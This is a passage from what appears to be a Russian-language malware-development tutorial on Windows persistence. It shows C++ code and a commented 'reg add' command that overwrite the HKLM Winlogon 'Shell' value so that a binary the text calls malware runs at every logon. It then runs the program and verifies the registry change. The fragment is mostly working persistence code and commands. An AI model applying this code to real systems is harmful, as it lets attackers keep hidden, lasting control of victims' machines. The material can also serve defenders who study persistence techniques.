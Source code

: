 ```cpp
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" /v 
    // "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, 
    REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

То есть, наше вредоносное ПО находится по пути: `Z:\...\hack.exe` вместо `C:\Windows\System32\hack.exe`.    

Запускаем:

```powershell
.\pers.exe 
req query "HKLM\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" /s
```

![pers](./images/58/2022-06-12_14-26.png){width="80%"}    
